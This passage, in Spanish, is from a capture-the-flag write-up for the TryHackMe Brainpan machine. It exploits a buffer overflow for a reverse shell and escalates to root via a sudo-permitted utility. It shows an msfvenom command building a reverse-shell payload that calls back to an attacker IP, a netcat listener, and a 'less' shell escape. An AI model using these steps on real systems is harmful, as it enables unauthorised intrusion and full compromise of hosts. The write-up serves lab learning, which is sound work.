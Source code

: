 Si re-abrimos el servicio `brainpan.exe` en nuestra maquina de prueba (sin utilizar el Immunity Debugger para que no pause la ejecucion) y ejecutamos el `./bofexploit.py 192.168.132.131 9999`{:.language-bash .highlight} mientras en otra ventana hacemos un `sudo nc -nlvp 443`{:.language-bash .highlight} para escuchar con `netcat` el puerto en espera de una consola remota, observamos como se realiza la explotacion de la vulnerabilidad de desbordamiento de bufer para ganar acceso inicial a nuestro sistema de prueba:
![image](https://user-images.githubusercontent.com/85322110/149257218-451c7f3f-32b5-439d-b655-1dd93bc27672.png)

Ahora solo falta adaptar este exploit al sistema Linux en el que esta basado la maquina original de TryHackMe, para ello cambiaremos el payload del msfvenom a `linux/x86/shell_reverse_tcp`con la siguiente ejecucion:
```bash
msfvenom -p linux/x86/shell_reverse_tcp -a x86 -f python -v command LHOST=10.8.33.130 LPORT=443 -b '\x00' -e x86/shikata_ga_nai
```
De igual forma copiamos el texto en nuestro script, abrimos una instancia de `nc` y ejecutamos el exploit ahora contra la IP de la maquina de TryHackMe y ganamos acceso con una consola no muy interactiva:
![image](https://user-images.githubusercontent.com/85322110/149258869-18b22782-2cb9-4e44-95ed-b29235cdfdb9.png)

Con esto podremos completar nuestro segundo objetivo de la maquina...

## ESCALADA DE PRIVILEGIOS

Una vez tenemos acceso, lo primero que podemos hacer es obtener una consola mas interactiva haciendo uso de una serie de pasos que se explican a continuacion:

- `script /dev/null -c bash`{:.language-bash .highlight}
- En teclado `Ctrl + Z`
- `stty raw -echo; fg`{:.language-bash .highlight}
- Escribir `reset` aunque no se vea
- `xterm` en Terminal Type
- `export SHELL=bash`{:.language-bash .highlight}
- `export TERM=xterm`{:.language-bash .highlight}

Ya con esto tenemos una consola interactiva con la cual procedemos a seguir investigando en como ganar privilegios de `root`. En un principio entramos como el usuario `puck` pero al escribir `sudo -l` vemos que podemos ejecutar el paquete `/home/anansi/bin/anansi_util` como `root` sin proveer password:
![image](https://user-images.githubusercontent.com/85322110/149259975-82e6b7a6-0c99-46df-b6a8-56196afb9d7b.png)

Asi que ejecutamos el comando haciendo `sudo /home/anansi/bin/anansi_util`{:.language-bash .highlight} vemos una serie de opciones, probamos con:
> `sudo /home/anansi/bin/anansi_util manual cat`{:.language-bash .highlight}

Y vemos que nos abre un manual del tipo `man` o `less`, pero al estar ejecutando esto como `root` podemos facilmente escribir `!/bin/bash` para escapar del `less` y ejecutar comandos desde alli, y finalmente esto nos abrira una consola `bash` con permisos de `root`:
![image](https://user-images.githubusercontent.com/85322110/149260381-63acf414-9994-4a34-8a94-5fcc19f75c0e.png)

Con esto completamos el ultimo objetivo de nuestra maquina explotando exitosamente una vulnerabilidad de `buffer overflow` en ambos entornos Windows y Linux...

Saludos!
